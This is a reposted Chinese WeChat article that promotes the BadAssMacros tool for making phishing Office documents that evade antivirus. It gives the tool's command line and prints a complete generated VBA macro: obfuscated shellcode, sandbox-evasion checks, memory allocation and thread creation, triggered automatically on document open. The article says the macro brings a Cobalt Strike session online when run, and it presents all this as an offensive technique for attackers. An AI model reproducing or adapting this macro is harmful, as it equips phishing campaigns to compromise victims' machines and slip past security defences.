 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qvHt7O1DFjnPiMTrL0LhGQ)

    在众多的攻击方式中，钓鱼文档攻击仍然扮演者重要的地位，而随着各类安全防护设备的成熟，宏免杀一直是我们所讨论的问题，之前有 MacroPack(收费版仍然好用) 可以生成免杀宏文档，但特征已被标记，今天介绍的这款工具则仍然效果很好。  

地址如下：https://github.com/Inf0secRabbit/BadAssMacros

     先来看一下免杀效果：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XzMvGtkUV65QQVgpV1OSlvRx7CgiamgqSQzjyWdhJMOcibdVEWLlUTiaV6cdVOy4Qejqx6ZeMPicmKog/640?wx_fmt=png)

目前具有的功能如下：

*   Classic VBA shellcode injection.
    
*   Indirect VBA shellcode injection (using LoadLibrary).
    
*   Sandbox Detection.
    
*   VBA Purging.
    
*   Shellcode obfuscation.
    
*   Variable name Randomization.
    

这里我使用第一种方式进行注入  

```
BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s classic -c <caesar_shift_value> -o <path_to_output_file>
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XzMvGtkUV65QQVgpV1OSlvUOKKHpf9hsFjXKicIFOwkShh2U5GxeI470nLvDh9E5NrH7ibeRpmJdBA/640?wx_fmt=png)

生成的宏代码如下：

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Function stb()
 Dim qAW As Variant
 Dim GvH As LongPtr
 Dim DTc As Long
 Dim xiB As Long
 Dim fWB As LongPtr
 If Application.RecentFiles.Count < 3 Then
Exit Function
End If
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
Set colItems = objWMIService.ExecQuery("Select * from Win32_Processor", , 48)
For Each objItem In colItems
If objItem.NumberOfCores < 3 Then
Exit Function
End If
Next
 qAW = Array(255, 75, 134, 231, 243, 235, 203, 3, 3, 3, 68, 84, 68, 83, 85, 84, 89, 75, 52, 213, 104, 75, 142, 85, 99, 75, 142, 85, 27, 75, 142, 85, 35, 75, 142, 117, 83, 75, 18, 186, 77, 77, 80, 52, 204, 75, 52, 195, 175, 63, _
100, 127, 5, 47, 35, 68, 196, 204, 16, 68, 4, 196, 229, 240, 85, 68, 84, 75, 142, 85, 35, 142, 69, 63, 75, 4, 211, 105, 132, 123, 27, 14, 5, 120, 117, 142, 131, 139, 3, 3, 3, 75, 136, 195, 119, 106, 75, 4, 211, 83, _
142, 75, 27, 71, 142, 67, 35, 76, 4, 211, 230, 89, 75, 258, 204, 68, 142, 55, 139, 75, 4, 217, 80, 52, 204, 75, 52, 195, 175, 68, 196, 204, 16, 68, 4, 196, 59, 227, 120, 244, 79, 6, 79, 39, 11, 72, 60, 212, 120, 219, _
91, 71, 142, 67, 39, 76, 4, 211, 105, 68, 142, 15, 75, 71, 142, 67, 31, 76, 4, 211, 68, 142, 7, 139, 75, 4, 211, 68, 91, 68, 91, 97, 92, 93, 68, 91, 68, 92, 68, 93, 75, 134, 239, 35, 68, 85, 258, 227, 91, 68, _
92, 93, 75, 142, 21, 236, 82, 258, 258, 258, 96, 109, 3, 76, 193, 122, 108, 113, 108, 113, 104, 119, 3, 68, 89, 76, 140, 233, 79, 140, 244, 68, 189, 79, 122, 41, 10, 258, 216, 75, 52, 204, 75, 52, 213, 80, 52, 195, 80, 52, _
204, 68, 83, 68, 83, 68, 189, 61, 89, 124, 170, 258, 216, 238, 118, 93, 75, 140, 196, 68, 187, 100, 33, 3, 3, 80, 52, 204, 68, 84, 68, 84, 109, 6, 68, 84, 68, 189, 90, 140, 162, 201, 258, 216, 238, 92, 94, 75, 140, 196, _
75, 52, 213, 76, 140, 219, 80, 52, 204, 85, 107, 3, 5, 67, 135, 85, 85, 68, 189, 238, 88, 49, 62, 258, 216, 75, 140, 201, 75, 134, 198, 83, 109, 13, 98, 75, 140, 244, 75, 140, 221, 76, 202, 195, 258, 258, 258, 258, 80, 52, _
204, 85, 85, 68, 189, 48, 9, 27, 126, 258, 216, 136, 195, 18, 136, 160, 4, 3, 3, 75, 258, 210, 18, 135, 143, 4, 3, 3, 238, 214, 236, 231, 4, 3, 3, 235, 165, 258, 258, 258, 50, 68, 107, 105, 81, 3, 157, 152, 102, 60, _
179, 136, 116, 184, 55, 38, 239, 250, 111, 149, 90, 39, 166, 220, 17, 236, 156, 173, 190, 208, 118, 42, 257, 206, 123, 209, 43, 169, 53, 205, 216, 128, 12, 197, 242, 182, 95, 141, 121, 124, 19, 107, 29, 95, 202, 59, 153, 178, 48, 5, _
145, 187, 177, 77, 21, 147, 43, 170, 168, 82, 205, 158, 16, 63, 236, 93, 13, 138, 84, 3, 88, 118, 104, 117, 48, 68, 106, 104, 113, 119, 61, 35, 80, 114, 125, 108, 111, 111, 100, 50, 55, 49, 51, 35, 43, 102, 114, 112, 115, 100, _
119, 108, 101, 111, 104, 62, 35, 80, 86, 76, 72, 35, 59, 49, 51, 62, 35, 90, 108, 113, 103, 114, 122, 118, 35, 81, 87, 35, 56, 49, 52, 62, 35, 87, 117, 108, 103, 104, 113, 119, 50, 55, 49, 51, 44, 16, 13, 3, 214, 193, _
208, 55, 4, 11, 192, 107, 203, 115, 147, 235, 180, 13, 143, 54, 239, 195, 106, 45, 70, 111, 186, 9, 50, 123, 33, 127, 155, 240, 94, 109, 44, 74, 215, 28, 87, 65, 234, 248, 256, 243, 98, 44, 211, 214, 183, 133, 125, 236, 179, 173, _
42, 79, 178, 37, 192, 157, 121, 113, 171, 34, 186, 133, 255, 128, 215, 171, 210, 205, 146, 240, 29, 36, 48, 127, 76, 230, 26, 217, 115, 92, 25, 236, 197, 231, 257, 122, 62, 143, 244, 121, 27, 239, 38, 94, 56, 147, 243, 126, 156, 179, _
56, 182, 70, 237, 65, 27, 97, 239, 200, 197, 202, 174, 144, 34, 151, 62, 49, 60, 202, 52, 98, 40, 250, 185, 239, 199, 73, 221, 9, 190, 126, 256, 79, 55, 29, 250, 163, 143, 71, 209, 165, 146, 197, 110, 170, 166, 230, 200, 159, 3, _
116, 93, 9, 95, 83, 16, 158, 164, 178, 82, 59, 108, 40, 34, 85, 47, 32, 224, 108, 77, 211, 83, 65, 201, 229, 35, 220, 3, 214, 148, 211, 48, 250, 225, 80, 148, 6, 168, 36, 35, 66, 197, 200, 170, 212, 245, 149, 56, 30, 181, _
21, 188, 102, 214, 68, 45, 199, 87, 53, 11, 121, 103, 133, 62, 193, 58, 25, 75, 138, 207, 190, 118, 212, 3, 68, 193, 243, 184, 165, 89, 258, 216, 75, 52, 204, 189, 3, 3, 67, 3, 68, 187, 3, 19, 3, 3, 68, 188, 67, 3, _
3, 3, 68, 189, 91, 167, 86, 232, 258, 216, 75, 150, 86, 86, 75, 140, 234, 75, 140, 244, 75, 140, 221, 68, 187, 3, 35, 3, 3, 76, 140, 252, 68, 189, 21, 153, 140, 229, 258, 216, 75, 134, 199, 35, 136, 195, 119, 185, 105, 142, _
10, 75, 4, 198, 136, 195, 120, 218, 91, 91, 91, 75, 8, 3, 3, 3, 3, 83, 198, 235, 162, 256, 258, 258, 52, 60, 53, 49, 52, 57, 59, 49, 52, 53, 54, 49, 52, 54, 52, 3, 84, 12, 194, 112)
For i = 0 To UBound(qAW)
qAW(i) = qAW(i) - 3
Next i
GvH = VirtualAlloc(0, UBound(qAW), &H3000, &H40)
For DTc = LBound(qAW) To UBound(qAW)
xiB = qAW(DTc)
fWB = RtlMoveMemory(GvH + DTc, xiB, 1)
Next DTc
res = CreateThread(0, 0, GvH, 0, 0, 0)
End Function
Sub Document_Open()
stb
End Sub
Sub AutoOpen()
stb
End Sub
```

运行后，CS 上线，有兴趣的可以自己去翻一翻源码。

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)